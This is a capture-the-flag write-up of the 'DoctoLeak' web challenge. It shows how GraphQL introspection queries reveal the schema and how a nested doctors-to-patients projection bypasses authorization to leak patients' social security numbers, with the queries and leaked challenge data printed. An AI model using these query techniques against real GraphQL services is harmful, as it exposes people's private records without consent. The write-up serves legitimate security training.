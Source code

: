 # DoctoLeak


## Category

> Web

## Description

> Je dois trouver le numéro de sécurité sociale du Patient 0 !
>
> C'est une question de vie ou de mort...

## Link

[DoctoLeak](http://doctoleak2.chall.malicecyber.com/)

## Difficulty

**MEDIUM** - 100 points

- Author: **Sysdream**
---

![img.png](img.png)

## Write up

The first interesting thing I found looking to the website was the link as the bottom: [Check our API](https://doctoleak2.chall.malicecyber.com/graphql)

Which leads to a **/graphql** page. At this point, I was sure it was all about exploiting some confidentiality issue in a graphql query.

Using the book from [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql) I was able to run some Introspection inside Burpsuite repeater.

I recover the schema using query like ``?query={__schema{types{name,fields{name}}}}``:

```json
{"data":{"__schema":{"types":[{"name":"Query","fields":[{"name":"doctor"},{"name":"doctors"},{"name":"patients"},{"name":"patient"},{"name":"allrendezvous"},{"name":"rendezvous"}]},{"name":"String","fields":null},{"name":"Doctor","fields":[{"name":"id"},{"name":"firstName"},{"name":"lastName"},{"name":"specialty"},{"name":"patients"},{"name":"rendezvous"},{"name":"email"},{"name":"password"}]},{"name":"ID","fields":null},{"name":"Patient","fields":[{"name":"id"},{"name":"firstName"},{"name":"lastName"},{"name":"doctor"},{"name":"ssn"}]},{"name":"Rendezvous","fields":[{"name":"id"},{"name":"date"},{"name":"confirmed"}]},{"name":"Boolean","fields":null},{"name":"JSON","fields":null},{"name":"Mutation","fields":[{"name":"signIn"}]},{"name":"Token","fields":[{"name":"token"}]},{"name":"__Schema","fields":[{"name":"types"},{"name":"queryType"},{"name":"mutationType"},{"name":"subscriptionType"},{"name":"directives"}]},{"name":"__Type","fields":[{"name":"kind"},{"name":"name"},{"name":"description"},{"name":"fields"},{"name":"interfaces"},{"name":"possibleTypes"},{"name":"enumValues"},{"name":"inputFields"},{"name":"ofType"}]},{"name":"__TypeKind","fields":null},{"name":"__Field","fields":[{"name":"name"},{"name":"description"},{"name":"args"},{"name":"type"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__InputValue","fields":[{"name":"name"},{"name":"description"},{"name":"type"},{"name":"defaultValue"}]},{"name":"__EnumValue","fields":[{"name":"name"},{"name":"description"},{"name":"isDeprecated"},{"name":"deprecationReason"}]},{"name":"__Directive","fields":[{"name":"name"},{"name":"description"},{"name":"locations"},{"name":"args"}]},{"name":"__DirectiveLocation","fields":null},{"name":"CacheControlScope","fields":null},{"name":"Upload","fields":null},{"name":"Int","fields":null}]}}}
```
I could understand that the database stores some doctors, patients, rendezvous, etc.

I tried to directly query the patient with id:0 with ``?query={patient(id:0){ssn}}`` but it returns an **UNAUTHORIZED** error, because we were not authenticated.

A mutation signIn exists, avec Doctors have a password field, so maybe we could manage to recover a password? I did not succeed in this way.

However, if we take a closer look at the **Doctor** type:

```json
{"name":"Doctor","fields":[{"name":"id"},{"name":"firstName"},{"name":"lastName"},{"name":"specialty"},{"name":"patients"},{"name":"rendezvous"},{"name":"email"},{"name":"password"}]}
```

A doctor possessed id, a firstName, but most importantly: **a list of patients**

Through a Doctor query, we can possibly manage to search for patients ssn.

Happily (or not?) this complete request was availible on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#extract-data-using-projections), using a **projection** attack.

We use an option inside a list of doctors, to search for **patients.ssn**:

{{< image src="img_1.png" caption="SSN leaks" title="SSN leaks" alt="SSN leaks" >}}

Here is our first leak! I could not manage to attach the id of the patient with the ssn, it returned the error ``Cannot return null for non-nullable field Patient.id``

However, our previous request contains that data at the bottom:

```json
{"firstName":"Admin","lastName":"Admin","id":"634d5b00dae927003e214578","patients":[{"ssn":"b16cff8b-4a5a-41c8-8545-d9880fd7aae5"}]}
```

The ssn was the one we were looking for.

{{< admonition type=success title="Flag" open=false >}}
:triangular_flag_on_post: `MALICE{b16cff8b-4a5a-41c8-8545-d9880fd7aae5}`
{{< /admonition >}}

